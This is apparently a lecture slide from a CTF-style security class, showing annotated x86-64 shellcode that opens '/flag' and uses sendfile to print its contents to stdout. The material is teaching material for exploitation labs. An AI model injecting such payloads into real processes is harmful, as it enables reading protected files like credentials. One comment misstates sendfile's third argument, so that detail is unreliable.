

# Non-shell shellcode
Shellcode can have many different goals, other than just dropping a shell.
Specialized for our class: sendfile(1, open("/flag", NULL), 0, 1000).
mov rbx, 0x00000067616c662f	# push "/flag" filename
push rbx
mov rax, 2				# syscall number of open
mov rdi, rsp				# point the first argument at stack (where we have "/flag")
mov rsi, 0				# NULL out the second argument (meaning, O_RDONLY)
syscall				# trigger open("/flag", NULL)
mov rdi, 1				# first argument to sendfile is the file descriptor to output to (stdout)
mov rsi, rax				# second argument is the file descriptor returned by open
mov rdx, 0				# third argument is the number of bytes to skip from the input file
mov r10, 1000				# fourth argument is the number of bytes to transfer to the output file
mov rax, 40				# syscall number of sendfile
syscall				# trigger sendfile(1, fd, 0, 1000)
mov rax, 60				# syscall number of exit
syscall				# trigger exit()